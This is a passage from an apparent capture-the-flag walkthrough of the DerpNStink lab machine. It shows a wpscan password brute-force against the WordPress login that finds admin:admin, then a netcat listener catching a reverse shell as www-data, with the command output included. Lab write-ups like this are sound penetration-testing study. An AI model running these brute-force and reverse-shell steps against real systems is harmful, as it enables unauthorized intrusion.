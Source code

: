 [Check 10.out-wpscan.txt for output](10.out-wpscan.txt)



### brute forcing with rockyou.txt

```shell
wpscan --url http://derpnstink.local/weblog --api-token="$WP_API_TOKEN" --enumerate ap,at,cb,dbe,u -U admin --passwords /usr/share/wordlists/rockyou.txt
...
[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / admin                                                                                          
Trying admin / VINCENT Time: 00:04:27 <                                  > (19820 / 14364212)  0.13%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: admin

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 5
 | Requests Remaining: 15

[+] Finished: Mon Dec 27 13:50:06 2021
[+] Requests Done: 43530
[+] Cached Requests: 20
[+] Data Sent: 16.945 MB
[+] Data Received: 15.92 MB
[+] Memory used: 308.695 MB
[+] Elapsed time: 00:04:57
```

Found credentials admin:admin

Also, the link `http://derpnstink.local/weblog/wp-login.php?action=register` takes to `http://derpnstink.local/weblog/wp-login.php?action=register`

Basically registration is disabled.

## Reverse shell

Upload a reverse shell via homelabit.

```shell
```shell
nc -nlvp 4444 -s $LHOST     
Listening on 192.168.56.70 4444
Connection received on 192.168.56.83 39774
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 08:57:58 up  1:00,  0 users,  load average: 0.00, 0.90, 1.63
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ date
Mon Dec 27 10:50:19 EST 2021
```